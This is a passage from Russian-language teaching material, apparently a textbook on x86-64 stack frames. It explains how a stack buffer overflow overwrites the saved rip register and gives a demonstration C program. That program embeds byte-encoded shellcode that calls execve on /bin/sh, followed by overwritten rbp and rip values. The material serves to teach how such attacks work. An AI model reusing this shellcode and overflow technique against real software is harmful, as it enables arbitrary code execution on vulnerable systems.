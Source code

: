 Адрес начала стека, а также, возможно, адреса локальных массивов и переменных выровнены на границу параграфа в 16 байт, из-за чего в стеке могут образоваться неиспользуемые байты.

Если в программе есть ошибка, которая может привести к переполнению выделенного буфера в стеке при копировании, есть возможность записать вместо сохранённого значения регистра \texttt{rip} новое. В результате по завершении данной функции исполнение начнётся с указанного адреса. Если есть возможность записать в переполняемый буфер исполняемый код, а затем на место сохранённого регистра \texttt{rip} адрес на этот код, то получим исполнение заданного кода в стеке функции.

На рис.~\ref{fig:stack-overflow} приведены исходный стек и стек с переполненным буфером, из-за которого записалось новое сохранённое значение \texttt{rip}.

\begin{figure}[!ht]
	\centering
	\texttt{[image: pic/stack-overflow]}
	\caption{Исходный стек и стек с переполнением буфера\label{fig:stack-overflow}}
\end{figure}


Изменим программу для демонстрации, поместив в копируемую строку исполняемый код для вызова \texttt{/bin/sh}.
{ \small
\begin{verbatim}
...
int main() {
  char text[68] =
    // 28 байт исполняемого кода
    "\x90" "\x90" "\x90"                // nop; nop; nop
    "\x48\x31" "\xD2"                   // xor %rdx, %rdx
    "\x48\x31" "\xF6"                   // xor %rsi, %rsi
    "\x48\xBF" "\xDC\xEA\xFF\xFF"
    "\xFF\x7F\x00\x00"                  // mov $0x7fffffffeadc,
                                        //   %rdi
    "\x48\xC7\xC0" "\x3B\x00\x00\x00"   // mov $0x3b, %rax
    "\x0F\x05"                          // syscall
    // 8 байт строки /bin/sh
    "\x2F\x62\x69\x6E\x2F\x73\x68\x00"  // "/bin/sh\0"
    // 12 байт заполнения и 16 байт новых
    // значений сохранённых регистров
    "\x00\x00\x00\x00"                  // незанятые байты
    "\x00\x00\x00\x00"                  // unsigned distance
    "\x00\x00\x00\x00"                  // unsigned diff
    "\x50\xEB\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rbp=0x7fffffffeb50
    "\xC0\xEA\xFF\xFF"                  // регистр
    "\xFF\x7F\x00\x00"                  //   rip=0x7fffffffeac0
    ;
  ...
  return hamming_distance(b1, b2, text, 68);
  ...
}
\end{verbatim} }

